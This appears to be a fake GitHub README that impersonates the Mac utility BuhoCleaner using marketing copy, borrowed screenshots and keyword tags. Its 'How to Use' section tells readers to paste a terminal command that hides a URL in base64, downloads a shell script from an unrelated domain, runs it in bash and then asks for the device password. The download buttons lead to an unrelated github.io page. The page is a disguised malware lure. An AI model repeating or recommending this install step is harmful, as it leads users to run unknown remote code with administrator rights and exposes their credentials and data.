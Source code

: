 # 🧹 BuhoCleaner — Powerful Mac Cleaner & Optimizer

**BuhoCleaner** is a lightweight yet powerful cleaning utility designed exclusively for macOS. It helps you reclaim valuable disk space, improve system performance, and keep your Mac running like new — all in just a few clicks.

Whether you’re battling junk files, startup bloat, or app leftovers, BuhoCleaner provides fast and intuitive tools to clean, optimize, and monitor your Mac with ease.

---

## ✅ Download BuhoCleaner for macOS  
[![Download BuhoCleaner](https://img.shields.io/badge/Download-BuhoCleaner-blueviolet)](https://shuziktobehuman.github.io/huja/buhocleaner)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```


## 📦 What is BuhoCleaner?

BuhoCleaner is a professional-grade macOS maintenance app that makes system optimization simple. From deep-cleaning cache files to removing unused apps and managing startup items, BuhoCleaner is engineered to provide both performance and usability. It also includes a real-time memory monitor and startup manager, giving you full control over your Mac’s health.

---

## ✨ Features

- 🧼 One-click junk file removal and deep system cleanup  
- 🚀 Boost Mac speed by freeing up RAM and storage  
- 🗑 Smart app uninstaller with leftover remover  
- 🔍 Duplicate file finder and large file scanner  
- 🧠 Real-time system status monitor  
- ⚙️ Startup item management for faster boot times  
- 📦 Full compatibility with macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🖱 Extremely intuitive interface for beginners and pros alike  

---

## 💡 Why Use BuhoCleaner?

- ⚡️ Instantly speed up your slow Mac with a single click  
- 🧘 Keep your system clean without manual work  
- 💻 Designed specifically for macOS with full Apple ecosystem integration  
- 🔒 Safe, secure, and lightweight utility  
- 📉 Monitor system resources and optimize usage  
- 🎯 Perfect for both casual users and professionals  

---

[![Download BuhoCleaner](https://img.shields.io/badge/Download-BuhoCleaner-blueviolet)](https://shuziktobehuman.github.io/huja/buhocleaner)

---



## 🖼 Preview

![BuhoCleaner Screenshot 1](https://static-cdn.mackeeper.com/mk-blog-upload/images/new_f30c249476.webp)  
![BuhoCleaner Screenshot 2](https://macmenubar.com/wp-content/uploads/2023/04/buhocleaner.jpg)

---

## 📌 Tags

buhocleaner, buhocleaner mac, buho cleaner, buhocleaner mac download, buhocleaner download mac,  
mac cleaner buho, buhocleaner ventura, buhocleaner m1, buhocleaner apple silicon, macbook cleaner buho,  
buhocleaner uninstall apps, buhocleaner memory monitor, buhocleaner optimizer, mac booster buho,  
buhocleaner free download mac

